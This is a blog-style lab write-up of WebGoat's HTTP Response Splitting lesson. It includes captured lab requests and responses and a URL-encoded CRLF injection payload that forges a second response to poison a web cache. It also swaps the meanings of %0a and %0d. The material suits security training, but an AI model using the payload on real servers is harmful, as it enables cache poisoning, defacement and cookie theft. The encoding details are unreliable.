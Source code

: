 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 1"
date:   2017-01-24 00:50:00 -0500
categories: coding security owasp bwa
---
```

# WebGoat Part 1: HTTP Response Splitting
The first section of WebGoat is called "General", but the main topic covered is HTTP Response Splitting. HTTP Response splitting is an attack that can be performed on a webserver that does not properly implement sanitization of user input on webpage forms. The specific exploitation that can be performed involves the use of carriage returns (%0a in HTML) and linefeeds (%0d in HTML). 

Normally, form entry is passed in a webpage's (client control) request to the webserver. The form fields are then appended onto the request header like so:

```
GET http://website.com/form_page?form1=field1&form2=field2 HTTP/1.1
<Rest of the request>
```

So, we can control part of the request with header data that we enter into our forms. This might not seem immediately malicious, but let's take a look at the WebGoat example:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&language=test
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

language=test&SUBMIT=Search%21
```

So in our form we simply entered "test". The POST request URL looks like we are going to be redirected to another resource on the webserver. Let's look at the server response and see what the next step is going to be:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 0
Via: 1.1 127.0.1.1
Vary: Accept-Encoding
Connection: close
```

Alright, so we are being redirected to the location specified by the 'Location' header in the response. Or more clearly:

```
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
```

Aha! One thing should pop out at us here, and that is the fact that our form input ("test") is found sitting right at the end of the Location header. Now while this request takes us to the page intended by the server, we can manipulate this behaviour by abusing the HTML parsing mechanism, or the webcache.

The webcache sits between the user and the webapplication, parsing responses from the webapplication to hand back to users. The exploit that we are abusing lies in tricking the webcache to hand back two responses from a single request. If we are allowed to insert carriage return (%0a) and linefeed (%0d) characters into our request, when the webcache handles the redirect response we can trick it into thinking that there should be two responses by truncating the original response and adding another completely attacker-controlled response to the webcache.

An example form exploit input could be like so (%20 is a URL-encoded space):

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

The first section truncates the original intended response by specifying a false Content-Length header. URL-decoded, the redirect response now looks like so:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0
```

The response is considered complete at this point. However, we have appended some extra data, that URL-decoded looks like so:

```
HTTP/1.1 200 OK
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now, the webcache only saw one request sent to the webserver by us (the attacker). Therefore our redirect is handled normally and we are served the cached response, which is the redirect to the location specified in the Location header. However, if we immediately ask for the resource again the webserver will match this new request with the second malicious response and cache the malicious response as the proper response for the requested resource. Now all subsequent requests for the resource will be served the malicious response that we crafted.

<img src="{{ site.baseurl }}/images/part1pwnd.jpg">

This can be much more serious than a simple defacement like we performed here. Alternatively, an attacker could append JavaScript to perform cross-site scripting attacks to steal cookies or other sensitive user data. In order to prevent this attack, any user-controlled data that can end up in a request header needs to be sanitized to prevent insertion of carriage-return and linefeed characters.